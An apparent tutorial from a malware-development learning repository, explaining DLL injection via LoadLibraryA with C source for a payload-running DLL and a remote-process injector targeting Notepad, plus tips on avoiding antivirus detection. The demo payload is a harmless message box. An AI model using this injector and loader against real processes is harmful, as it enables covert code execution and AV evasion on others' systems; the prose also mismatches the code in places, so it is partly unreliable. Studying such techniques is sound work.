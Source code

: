 # DLL Injection (LoadLibrary Technique)

DLL injection is a technique used to inject a dynamic-link library (DLL) into the address space of a running process. This method allows the injected DLL to execute code within the context of the target process, granting it access to the process's memory, resources, and functionalities.

The module contains two main source files:
- `injectme.c`: This contains the source code for the malicious DLL
 
- `injector.c`: This contains the code for the program which injects our malicious DLL into the remote process.

## The DLL Source

First, we have our standard `DllMain` which contains the following code:

```c
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
        case DLL_PROCESS_ATTACH:
            int result = injectme(); 
            break;
        default:
            break;
        }
    return TRUE;
}
```

The `DllMain` is simple: whenever the DLL is loaded into the process's memory (`DLL_PROCESS_ATTACH`) it calls the `injectme()` function which is responsible for running our Message Box payload. 

The `injectme()` function has the following code:
```c
extern __declspec(dllexport) int injectme(void) {
    void * pAddress;
    DWORD oldprotect = 0;
    pAddress = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pAddress, payload, payload_len);
    BOOL retval = VirtualProtect(pAddress, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) pAddress, 0, 0, 0);
    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    return 0;
}
```
The `injectme()` function is where the magic happens. We use the `extern __declspec(dllexport)` declaration to indicate that the DLL exports this function. 

> Since the DLL will be loaded in the process's address space itself, we can use `VirtualAlloc()` and `CreateThread()` instead of `VirtualAllocEx()` and `CreateRemoteThread()`. 

We begin with allocating memory for our payload with `VirtualAlloc()`, like we did with `VirtualAllocEx()` during **Shellcode Injection**. However, one noticable difference is that: the permission of the memory region has been set to `PAGE_READWRITE` because we need to write our payload to it. 

> In case of Shellcode Injection, the call to `WriteProcessMemory()` makes the region temporarily writeable for us and when the write operation is done, it restores the memory protection to its original state, but in this case, we gotta do this on our own and make sure the memory region is writeable. [See: [this Microsoft DevBlog](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)]

Once the memory has been allocated, we use `RtlMoveMemory()` to copy the payload over to the allocated memory region, and then proceed to change the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtect()`. 

> Note that we could have used `VirtualAlloc()` with `PAGE_EXECUTE_READWRITE` in the first place and skipped calling `VirtualProtect()` altogether. However, having `RWX` permission on a memory region sets off major red flags for AV engines.

Finally, we use `CreateThread()` and set the thread function to run our payload and wait till it finishes execution with `WaitForSingleObject()` just like in the **Shellcode Injection** example. Once the Thread finishes execution, we close the thread handle and return the back to the `DllMain` function. 

This concludes the DLL source.

## The Injector Source

Now comes the injector, which loads the malicious DLL into the target process's memory. The `main()` function looks familiar as such:

```
int main() {
	DWORD pid = find_pid(TARGET);
	printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_dll_ll(pid);
    printf("[i] Injection Complete!\n");
    return 0;
}
```

We find the Process ID for the target process using `find_pid()` and pass it to the `inject_dll_ll()` function where the injection takes place. The `inject_dll_dll()` function looks like this:

```c
int inject_dll_ll(DWORD pid) {
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    HANDLE hModule = GetModuleHandle("Kernel32.dll");
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress(hModule, "LoadLibraryA");
    CloseHandle(hModule);
    PVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(DLL_PATH), MEM_COMMIT, PAGE_READWRITE);
    BOOL result = WriteProcessMemory(hProcess, pAddr, (LPVOID)DLL_PATH, sizeof(DLL_PATH),  NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pAddr, 0, NULL);
    int _result =  WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```
> Here, the `DLL_PATH` macro expands to the full path of the malicious DLL on the system

For injecting our DLL into the target process, we would use the `LoadLibraryA()` function from `kernel32.dll` to load our DLL into the target process's virtual memory. This method, however has certain drawbacks:
- It registers the DLL with the process so it might set off some flags to alert defenders
- If a DLL has already been loaded once with `LoadLibraryA()`, it would not trigger execution on subsequent attempts. 

With that in mind, lets walk through the code. First, we open a open a handle to the target process(`hProcess`). Then, we dynamically resolve the address of `LoadLibraryA` function from `kernel32.dll` as such:

- First, we use `GetModuleHandle()` to retrieve a module handle for the `kernel32.dll`, because thats where `LoadLibraryA()` function is defined.
- Then, we use this handle to the module(`hModule`) along with `GetProcAddress()` to fetch the address of the `LoadLibraryA()` function.
- Once we have the address to `LoadLibraryA()`, we can go ahead and free the module handle(`hModule`)

Next up, we need to allocate memory with `VirtualAllocEx()` in the remote process's virtual address space to store the full location of the DLL(`DLL_PATH`). This time around, we need to set the permission for the memory region as `PAGE_READWRITE` because we need to write our Dll's path (`DLL_PATH`) to it but there is no execution happening in the memory region.

Once the memory has been allocated, we use `WriteProcessMemory()` to copy the full DLL path into the process's memory. Finally, we call `CreateRemoteThread()`, but this time, we pass the previously acquired address of `LoadLibraryA()`(`pLoadLibrary`) as the thread function and pass the address of memory location in the remote process where the full path to the DLL is stored(`pAddr`) as the variable to the thread function, and start the remote thread. 

This essentially forces the remote process to execute the following instruction:

```c
LoadLibraryA("C:\\Path\\To\\injectme.dll")
```

As soon as the instruction is executed and the DLL is attached to the process, the payload is executed. We skip the wait stage for the thread by setting the timeout interval to `0` in `WaitForSingleObject()` and return as soon as exectuion finishes.

When compiled and run, we should have our `Hello World!` message box popup from the target process.

![](./imgs/dll_ll_0.png)

If we examine the target process(`Notepad.exe`) with a tool like `Process Hacker`, we should see our malicious DLL in the list of modules loaded by the process.

![](./imgs/dll_ll_1.png)